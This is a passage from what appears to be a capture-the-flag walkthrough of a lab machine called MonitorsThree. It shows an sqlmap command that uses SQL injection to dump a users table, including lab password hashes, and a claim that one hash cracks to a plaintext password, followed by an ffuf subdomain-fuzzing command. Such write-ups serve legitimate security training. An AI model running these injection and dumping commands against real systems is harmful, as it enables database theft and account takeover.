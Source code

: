 ```bash
sqlmap -r forgot_pass.req -D monitorsthree_db -T users --dump

Database: monitorsthree_db
Table: users
[4 entries]
+----+------------+-----------------------------+-------------------+-----------+----------------------------------+-----------+-----------------------+------------+
| id | dob        | email                       | name              | salary    | password                         | username  | position              | start_date |
+----+------------+-----------------------------+-------------------+-----------+----------------------------------+-----------+-----------------------+------------+
| 2  | 1978-04-25 | admin@monitorsthree.htb     | Marcus Higgins    | 320800.00 | 31a181c8372e3afc59dab863430610e8 | admin     | Super User            | 2021-01-12 |
| 5  | 1985-02-15 | mwatson@monitorsthree.htb   | Michael Watson    | 75000.00  | c585d01f2eb3e6e1073e92023088a3dd | mwatson   | Website Administrator | 2021-05-10 |
| 6  | 1990-07-30 | janderson@monitorsthree.htb | Jennifer Anderson | 68000.00  | 1e68b6eb86b45f6d92f8f292428f77ac | janderson | Network Engineer      | 2021-06-20 |
| 7  | 1982-11-23 | dthompson@monitorsthree.htb | David Thompson    | 83000.00  | 633b683cc128fe244b00f176c8a950f5 | dthompson | Database Manager      | 2022-09-15 |
+----+------------+-----------------------------+-------------------+-----------+----------------------------------+-----------+-----------------------+------------+
```

That hash crackstations to greencacti2001. I login and am greeted with a basic task and invoice tracking portal. There are no usable buttons here but below is what it looks like.

{% include img_link src="/img/monitorsthree/monitorsthree_dashboard" alt="dashboard" ext="png" trunc=600 %}

![defunct invoice creation]({{ page.img }}_create_invoice.png)


# User as marcus

## Shell as www-data

### cacti packages

In my scanning I had yet to scan for subdomains and I suspect at this point there is one hidden here somewhere.

```bash
ffuf -w /opt/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://monitorsthree.htb -H "Host: FUZZ.monitorsthree.htb" -mc 200,302,401 -fs 13560

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://monitorsthree.htb
 :: Wordlist         : FUZZ: /opt/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.monitorsthree.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
```